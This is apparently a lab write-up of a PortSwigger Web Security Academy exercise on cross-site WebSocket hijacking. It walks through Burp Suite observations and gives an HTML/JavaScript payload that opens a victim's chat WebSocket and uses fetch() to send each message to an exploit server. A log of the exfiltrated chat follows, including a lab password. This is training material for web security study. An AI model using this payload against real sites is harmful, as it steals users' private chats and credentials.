



### Cross-site WebSocket hijacking : PRACTITIONER

---

> Heading to the Live Chat page while having BURPSUITE PROXY HTTP history on.



> Since we see the WebSocket headers, we can now check the websocket history tab in burpsuite to monitor the communication.
> We also see that there are no CSRF tokens, and that sessions are handled only via cookies.

> Sending some messages while having the websocket history tab open:



> We see that for all the messages there is a message sent, and it starts with the `READY` messaage to the server.



> If we refresh the chat page, we see that we get the exact same messages, followed by the same `READY` message. This indicates that the first `READY` message is responsible for initiating the conversation.

> Since we have no protection against CSRF, we can create a malicious request that initiates this `READY` message and send it to any client. 
> Since the way user sessions are handled are via the cookies and there is no protection, then when the user clicks on the malicious request, it will perform actions that the user doesn't intend to perform.

> Creating the script that will initiate the websocket and send the `READY` message:

```HTML
<script>
    var ws = new WebSocket('wss://0a22002604df511c8091f455007b0034.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0ac700ca04905108807bf39f01b400fc.exploit-server.net/exploit?message='+ event.data);
    };
</script>
```

> We open a websocket to the `chat` page on the vulnerable website.
> We send the `READY` message.
> Then we send the result of any subsequent messages to the exploit server and posts the data there at the end of a message parameter.

> If we upload this script to the exploit server, we wait for a client to click on it. Once a client clicks on it, it uses the client's session cookies and initiates the websocket connection.
> The script then returns all the returned messages to see the entire chat history of that user.

```
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22Hal%20Pline%22,%22content%22:%22Hello,%20how%20can%20I%20help?%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20o0qwuskszun371tbw9e4%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22You%22,%22content%22:%22Thanks,%20I%20hope%20this%20doesn&apos;t%20come%20back%20to%20bite%20me!%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36"
10.0.4.81       2023-11-01 12:07:55 +0000 "GET /exploit?message={%22user%22:%22CONNECTED%22,%22content%22:%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0
```

> We can now see the username and password in one of the sent messages.

`carlos:o0qwuskszun371tbw9e4`

---

